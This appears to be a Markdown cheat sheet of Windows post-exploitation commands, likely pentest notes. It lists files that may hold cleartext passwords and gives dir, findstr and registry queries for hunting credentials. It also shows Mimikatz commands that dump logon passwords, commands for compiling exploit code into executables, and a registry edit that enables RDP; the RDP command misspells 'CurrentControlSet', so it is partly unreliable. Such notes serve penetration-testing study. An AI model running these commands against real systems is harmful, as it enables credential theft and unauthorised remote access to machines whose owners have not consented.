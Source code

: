 ### Passwords

Check specific files for cleartext pwds
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
%SYSVOL%\*\Groups.xml

more to find:
https://www.fuzzysecurity.com/tutorials/16.html
```

Searching for clear-text pwds
```
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

#### Mimikatz

Enable log file (mimikatz.log)
```console
standard::log
```

Enable debugging
```console
privilege::debug
```

List all provider credentials
```console
sekurlsa::logonpasswords
```


### Exploits

Generating EXE from Python exploit
```console
python pyinstaller.py --onefile <EXPLOIT.py>
```

Cross compiling
```console
i686-w64-mingw32-gcc <EXPLOIT.c> -lws2_32 -o <BINARY>
```

### Misc

Activate RDP
```console
reg add “HKLM\SYSTEM\CurentControlSet\Control\Terminal Server”  /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
